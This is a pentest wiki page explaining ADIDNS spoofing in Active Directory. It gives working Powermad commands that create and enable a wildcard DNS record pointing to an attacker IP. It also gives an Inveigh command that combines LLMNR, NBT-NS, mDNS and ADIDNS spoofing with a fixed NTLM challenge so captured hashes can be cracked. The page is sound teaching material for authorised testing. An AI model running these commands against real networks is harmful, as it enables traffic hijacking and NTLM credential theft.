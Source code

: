 # ADIDNS spoofing

## Theory

In order to function properly, Active Directory services need DNS. In that matter, Active Directory Domain Services \(AD-DS\) offer an integrated storage and replication service for DNS records. This is called Active Directory Integrated DNS \(ADIDNS\).

Just like any other domain name resolution spoofing attack, if an attacker is able to resolve requests with an arbitrary IP address, traffic gets hijacked, the attacker becomes a man-in-the-middle and further attacks can be operated.

Since ADIDNS zone DACL \(Discretionary Access Control List\) enables regular users to create child objects by default, attackers can leverage that and hijack traffic.

ADIDNS zones can be remotely edited

* with **dynamic updates** \(a DNS specific protocol used by machine accounts to add and update their own DNS records\). Users can create records if they don't exist, and they will have full control over it. By default, users that don't own a record will not be able to edit it, or to add another one with the same name, even if the type is different \(A, AAAA, CNAME, MX, and so on\).
* by **using LDAP** to create dnsNode objects. While dynamic updates can't be used to inject a wildcard DNS record, LDAP can be \(only if the record doesn't already exist, which is the case by default\).

> Wildcard records allow DNS to function in a very similar fashion to LLMNR/NBNS spoofing. Once you create a wildcard record, the DNS server will use the record to answer name requests that do not explicitly match records contained in the zone. \([source](https://blog.netspi.com/exploiting-adidns/#wildcard)\)

## Practice

### Manual record addition/edition

On Windows, the [Powermad ](https://github.com/Kevin-Robertson/Powermad)module can be used to manually add/view/edit/enable/disable a record. In the following examples, the wildcard \(`*`\) record is targeted but the examples should also work with other records \(except things like `WPAD` that are in the [GQBL](wpad-spoofing.md#through-adidns-spoofing)\). The standard process when creating a new record is to add the record, then set it \(populate it's DnsRecord attribute\) and then enable it.

{% tabs %}
{% tab title="Get/Read" %}
The following command can be used to get the value populated in the DNSRecord attribute of a node.

```bash
Get-ADIDNSNodeAttribute -Node * -Attribute DNSRecord
```
{% endtab %}

{% tab title="Add" %}
The following command creates a wildcard record and sets the `dNSTombstoned` attribute, allowing any authenticated user to perform modifications to the node \(this helps maintain control of the node, even when the owner accounts gets deleted. Pretty useful after a pentest\).

```text
New-ADIDNSNode -Node * -Tombstone -Verbose
```
{% endtab %}

{% tab title="Set/Edit" %}
The `Set-ADIDNSNodeAttribute` function can be used to append, populate, or overwrite values in a DNS node attribute. In this case, the command below can be used to set/overwrite the record's value.

```bash
Set-ADIDNSNodeAttribute -Node * -Attribute DNSRecord -Value (New-DNSRecordArray -Data $ATTACKER_IP) -Verbose
```
{% endtab %}

{% tab title="Enable" %}
Once a record is set and populated, it can be enable with the following command.

```bash
Enable-ADIDNSNode -Node *
```
{% endtab %}

{% tab title="Disable" %}
A record can be disabled \(i.e. tombstoned\) with the following command. This means the record will still exist but will not be used when resolving names.

```bash
Disable-ADIDNSNode -Node *
```
{% endtab %}

{% tab title="Remove" %}
The following command can be used to fully remove a record.

```bash
Remove-ADIDNSNode -Node *
```
{% endtab %}

{% tab title="Check/Resolve" %}
While `ping` can absolutely be used for the job, the [Powermad ](https://github.com/Kevin-Robertson/Powermad)module can be used to resolve names \(all DNS spoofing attacks need to be stopped in order to avoid false results\).

```bash
Resolve-DnsName NameThatDoesntExist
```

That command will either return an IP address, indicating that the wildcard record exists \(or that `NameThatDoesntExist` is an actual explicit record\), or return an error stating that the DNS name doesn't exist, indicating that the wildcard record doesn't exist.
{% endtab %}
{% endtabs %}

More help on usage, support functions, parameters and attacks [here](https://github.com/Kevin-Robertson/Powermad#adidns-functions).

### Dynamic spoofing

Using [Inveigh](https://github.com/Kevin-Robertson/Inveigh) \(Powershell\), the following command will 

* operate [LLMNR, NBT-NS and mDNS spoofing](llmnr-nbtns-mdns.md)
* operate ADIDNS spoofing
  * `combo` looks at LLMNR/NBNS requests and adds a record to DNS if the same request is received from multiple systems
  * `ns` injects an NS record and if needed, a target record. This is primarily for the GQBL bypass for wpad. 
  * `wildcard` injects a wildcard record
* set the threshold at which the combo ADIDNS spoofing mode will take effect
* enable showing NTLM challenge/response captures from machine accounts
* set the Challenge to `1122334455667788` \(to [crack NTLM hashes](../credentials/cracking.md#practice) with [crack.sh](https://crack.sh/)\)

```text
Invoke-Inveigh -ConsoleOutput Y -ADIDNS combo,ns,wildcard -ADIDNSThreshold 3 -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y
```

[This wiki page](https://github.com/Kevin-Robertson/Inveigh/wiki/Basics) can be really useful to help master Inveigh and its support functions

* `Clear-Inveigh` to clear Inveigh's hashtable
* `Get-Inveigh` to get data from Inveigh's hashtable
* `Stop-Inveigh` to stop all running modules
* `Watch-Inveigh` to enable real time console output

## References

{% embed url="https://blog.netspi.com/exploiting-adidns/" %}

{% embed url="https://blog.netspi.com/adidns-revisited/" %}

{% embed url="https://snovvcrash.rocks/2020/12/28/htb-hades.html\#spoofing-active-directory-integrated-dns" %}



